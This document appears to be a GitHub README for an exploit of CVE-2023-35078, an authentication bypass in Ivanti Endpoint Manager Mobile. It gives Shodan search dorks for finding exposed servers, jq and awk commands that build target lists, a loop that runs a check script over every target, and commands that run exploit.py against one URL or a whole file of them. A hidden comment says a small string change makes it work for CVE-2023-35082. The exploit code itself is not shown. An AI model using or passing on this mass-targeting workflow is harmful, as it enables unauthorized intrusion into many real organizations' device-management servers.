 # CVE-2023-35078
![](https://img.shields.io/static/v1?label=Product&message=MobileIron&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=Ivanti%20Endpoint%20Manager%20Mobile%20through%2011.10&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%2010.0.%20Authentication%20Bypass&color=red)



- Shodan dorks:
```
http.favicon.hash:362091310
```
```
http.favicon.hash:545827989
```
```
path=/mifs
```
Download the shodan json file and extract all IP addresses from it. 

- Transform shodan json to _data_file_ <br/>
```
jq -cr 'select(.http.favicon.hash == 362091310) | [ if .ssl? then "https://" else "http://" end , (.ip_str) + ":" + (.port|tostring)] | add' shodan.json > data_file
```
```
jq -cr 'select(.http.favicon.hash == 545827989) | [ if .ssl? then "https://" else "http://" end , (.ip_str) + ":" + (.port|tostring)] | add' shodan.json > data_file
```
```
python3 shodan-parser.py -o temp_data_file shodan.json
```
```
awk '{print "https://"$0}' temp_data_file > data_file
```
- How to run a check. <br/>

   The format of the data_file should be as follows: **_http://ip_addr:port_** or **_https://ip_addr:port_** <br/> 
```
chmod +x check.sh; while read line; do ./check.sh $line; done < data_file
```
- Setup requirements <br/>
```
pip install -r requirements.txt
```
- Run exploit single address . <br/>
```
python exploit.py -u http://
```
- Run mass exploit . <br/>
```
python exploit.py -f urls.txt
```
<!-- Here is an Easter Egg for inquiring minds ;-)
 CVE-2023-35082: Just change "aad" to "asfV3" and the exploit works.-->
